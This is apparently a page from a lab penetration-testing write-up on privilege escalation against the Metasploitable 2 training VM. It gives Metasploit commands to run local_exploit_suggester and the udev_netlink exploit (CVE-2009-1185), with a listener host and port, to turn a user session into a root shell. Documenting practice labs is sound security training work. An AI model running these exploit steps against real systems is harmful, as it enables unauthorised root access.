

# Phase 5 — Privilege Escalation

> **Objective:** Escalate from a low-privileged user session to root. Some exploits in Phase 4 provided immediate root access, while others returned user-level shells requiring further escalation.

---

## Identifying Current Session Context

Before attempting privilege escalation, the current session context was established. By Phase 5, over twenty sessions had been accumulated across six exploits. Session 19 was identified as running under a standard **user account** with limited privileges.

```bash
# Display the available sessions
sessions help
```


> Session 19 confirmed: running as `user` — low privilege. Selected as the escalation candidate.

---

## Local Exploit Suggester

Rather than manually researching privilege escalation paths, the `local_exploit_suggester` module analyses the active session, reads the target's kernel version and system configuration, and automatically generates a ranked list of applicable local privilege escalation exploits.

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 19
run
```


> The suggester identified that Metasploitable 2 runs **Linux kernel 2.6.24** and returned multiple exploit candidates applicable to that kernel version.

---

## Privilege Escalation via udev_netlink — CVE-2009-1185

Based on the local exploit suggester output, the `udev_netlink` exploit was selected as the most appropriate escalation vector for kernel 2.6.24.

**CVE-2009-1185** targets a vulnerability in the Linux `udev` device manager present in kernel versions prior to 2.6.25. The `udev` daemon processes kernel netlink messages without properly validating their origin, allowing a local user to send a crafted message that triggers arbitrary command execution as root.

```bash
use exploit/linux/local/udev_netlink
show options
set SESSION 19
set LHOST 10.0.2.6
set LPORT 4444
run

# Verify escalation succeeded
meterpreter > getuid
```



> **Result:** The `udev_netlink` exploit successfully escalated the session from a **low-privileged user to root**. The `getuid` command confirmed `Server username: root`.

---

## Summary

| Step | Action | Result |
|------|--------|--------|
| 1 | Identified low-privilege session (Session 19) | User-level access confirmed |
| 2 | Ran `local_exploit_suggester` against Session 19 | Multiple escalation candidates identified for kernel 2.6.24 |
| 3 | Selected `udev_netlink` (CVE-2009-1185) | Root shell obtained |

---

➡️ [Phase 6 — Pivoting](./06-pivoting.md)
